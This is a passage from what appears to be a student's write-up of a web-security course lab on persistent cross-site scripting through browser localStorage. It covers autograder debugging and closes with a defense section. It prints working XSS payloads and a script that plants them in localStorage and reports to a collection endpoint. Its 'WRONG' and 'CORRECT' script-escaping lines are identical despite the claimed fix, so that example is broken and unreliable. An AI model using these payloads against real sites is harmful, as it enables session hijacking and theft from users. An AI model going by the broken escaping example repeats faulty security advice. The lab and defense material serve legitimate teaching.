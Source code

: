 The same process happens because `localStorage` persists across browser sessions (unlike `sessionStorage` which clears when the browser closes).

## Debugging the Autograder

### Issue: Autograder Timing

The autograder simulates a user visiting the page, closing the browser, and reopening. I had to ensure the timing was perfect:

```javascript
// Debug version with logging
setTimeout(function () {
  fetch("/receive/gguruvelli3/2065", {
    method: "POST",
    body: "debug=Setting localStorage",
  });
  localStorage.setItem("cs6262-web-security-theme-mode", "1");
  localStorage.setItem(
    "cs6262-web-security-user-theme",
    "<img src=x onerror=alert(1)>"
  );
  fetch("/receive/gguruvelli3/2065", {
    method: "POST",
    body: "debug=localStorage set successfully",
  });
}, 0);
```

The debug output confirmed the payload was being stored correctly.

### Issue: Script Tag Escaping

I initially forgot to escape the closing script tag:

```javascript
// WRONG - breaks the outer script
localStorage.setItem("theme", "<script>alert(1)</script>");

// CORRECT - escapes the forward slash
localStorage.setItem("theme", "<script>alert(1)</script>");
```

Without the escape, the browser's HTML parser would see `</script>` and prematurely end the outer script block, causing a syntax error.

## Defense Mechanisms

### 1. Treat localStorage as Untrusted Input

**Never inject data from `localStorage` directly into the DOM:**

```javascript
// VULNERABLE
var theme = localStorage.getItem("user-theme");
document.body.innerHTML += theme; // XSS!

// SECURE
var theme = localStorage.getItem("user-theme");
var div = document.createElement("div");
div.textContent = theme; // Treats as text, not HTML
document.body.appendChild(div);
```

